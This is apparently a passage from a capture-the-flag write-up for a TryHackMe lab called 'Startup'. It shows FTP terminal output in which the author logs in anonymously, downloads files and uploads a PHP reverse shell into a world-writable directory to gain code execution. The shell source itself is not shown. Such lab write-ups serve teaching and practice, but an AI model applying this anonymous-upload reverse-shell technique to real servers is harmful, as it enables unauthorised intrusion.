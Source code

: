 ```
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> mget *
mget ftp?
200 PORT command successful. Consider using PASV.
550 Failed to open file.
mget important.jpg?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
226 Transfer complete.
251631 bytes received in 0.59 secs (417.2951 kB/s)
mget notice.txt?
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for notice.txt (208 bytes).
226 Transfer complete.
208 bytes received in 0.00 secs (140.4737 kB/s)
ftp> cd ftp
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
226 Directory send OK.
ftp>
```

`but Maya is looking pretty sus.`

```
bibo318@parrot:~/CTFs/tryhackme/Startup$ ftp 10.10.36.184
Connected to 10.10.36.184.
220 (vsFTPd 3.0.3)
Name (10.10.36.184:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
553 Could not create file.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 .
drwxr-xr-x    3 65534    65534        4096 Nov 12 04:53 ..
-rw-r--r--    1 0        0               5 Nov 12 04:53 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (67.1729 MB/s)
ftp> exit
```